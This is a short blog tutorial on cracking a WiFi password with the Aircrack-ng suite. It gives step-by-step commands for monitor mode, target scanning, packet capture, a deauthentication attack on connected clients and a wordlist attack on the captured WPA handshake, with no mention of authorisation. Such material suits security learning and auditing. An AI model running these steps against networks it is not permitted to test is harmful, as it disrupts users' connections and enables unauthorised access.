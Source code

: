 ```yaml
---
title: "Cracking WIFI Password with Aircrack-ng"
date: 2024-07-06T22:06:14+0800
tags: ["Aircrack-ng", "high-school-article-rewrite"]
---
```


# rewrite

I've revisited and cleaned up this guide from my high school days to make it more understandable.

## What is Aircrack-ng?

[Aircrack-ng](https://www.kali.org/tools/aircrack-ng/) is a toolset used to assess WiFi network security. It includes:

- **Monitoring**: Capturing WiFi data packets for analysis.
- **Attacking**: Performing actions like packet injection and creating fake access points.
- **Testing**: Checking WiFi card capabilities.
- **Cracking**: Breaking WEP and WPA PSK (WPA 1 and 2) encryption.

## Hardware Requirements

To use Aircrack-ng, you need a wireless card or USB adapter. Without one, you can't perform WiFi cracking operations.

## Checking Card Status

Ensure your wireless card is recognized:

```shell
root@kali:~# iwconfig
```
![iwconfig](./iwconfig.gif)

## Starting Monitor Mode

Enable monitor mode on your wireless interface (`wlan0` or similar):

```shell
root@kali:~# airmon-ng start wlan0
```
![airmon-ng start wlan0](./airmon-ng%20start%20wlan0.png)

## Finding Target WiFi Network

Identify the WiFi network (ESSID, BSSID, and channel number):

```shell
root@kali:~# airodump-ng wlan0mon
```
![airodump-ng wlan0mon](./airodump-ng%20wlan0mon.gif)

## Creating Capture File

Capture data from the target network:

```shell
airodump-ng -d [BSSID] -c[channel] -w [capture filename] wlan0mon
```
![Creating Cap file](./capfile.gif)
![Creating Cap file-2](./capfile-2.gif)
![file](./file.gif)

## Performing Deauthentication Attack

Disconnect a device from the network to capture the necessary handshake or PMKID:

```shell
aireplay-ng --deauth 0 -a [BSSID] wlan0mon
```
![Device deauth](./handshake.gif)

## Cracking the Password

Once you've captured the handshake or PMKID, use Aircrack-ng to crack the WiFi password:

```shell
aircrack-ng [capture filename] -w [password list file]
```

![Cracking password](./cracking.png)

## Closing Monitor Mode

Disable monitor mode after you're done:

```shell
root@kali:~# airmon-ng stop wlan0mon
```
![Stop Monitor Mode](./stop.png)
